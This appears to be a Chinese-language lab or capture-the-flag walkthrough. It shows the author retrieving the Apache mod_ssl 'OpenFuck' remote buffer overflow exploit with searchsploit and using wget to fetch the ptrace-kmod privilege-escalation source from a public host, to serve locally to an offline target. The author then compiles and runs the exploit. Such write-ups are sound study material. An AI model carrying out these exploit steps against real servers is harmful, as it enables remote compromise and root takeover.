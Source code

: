 发现好像都可以操作一下

第一个说是可以dos咱们这里就没这个必要了

刚开始不知道选哪个

参考网上大佬说法选数字大的代码新，用起来方便，不然编译的时候可能要其他依赖

那就选47080这个

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# searchsploit -m unix/remote/47080.c
  Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
      URL: https://www.exploit-db.com/exploits/47080
     Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
    Codes: CVE-2002-0082, OSVDB-857
 Verified: False
File Type: C source, ASCII text
Copied to: /home/kali/Desktop/47080.c
```

这里有一点需要注意下，靶机是不联网的，而我们的exp里面有个公网的资源需要下载，解决办法就是下在我们本地，开一个临时服务，然后给他把地址改了

![image](https://github.com/user-attachments/assets/b12f2dd8-debd-43cb-93d9-d893fa9cb67d)

![image](https://github.com/user-attachments/assets/0888d147-f7e9-410e-b894-8921b7773572)


```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
--2024-09-16 13:46:45--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
正在解析主机 dl.packetstormsecurity.net (dl.packetstormsecurity.net)... 198.84.60.200
正在连接 dl.packetstormsecurity.net (dl.packetstormsecurity.net)|198.84.60.200|:443... 已连接。
已发出 HTTP 请求，正在等待回应... 200 OK
长度：3921 (3.8K) [text/x-csrc]
正在保存至: “ptrace-kmod.c”

ptrace-kmod.c                                    100%[=======================================================================================================>]   3.83K  --.-KB/s  用时 0s      

2024-09-16 13:46:47 (141 MB/s) - 已保存 “ptrace-kmod.c” [3921/3921])
```


```bash
#编译
┌──(root㉿kali)-[/home/kali/Desktop]
└─# gcc -o OpenFuck 47080.c -lcrypto
...
┌──(root㉿kali)-[/home/kali/Desktop]
└─# ls
47080.c  OpenFuck  ptrace-kmod.c  xc
                                                                                                                                                                                                 
#运行看一下
┌──(root㉿kali)-[/home/kali/Desktop]
└─# ./OpenFuck                                     

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

```
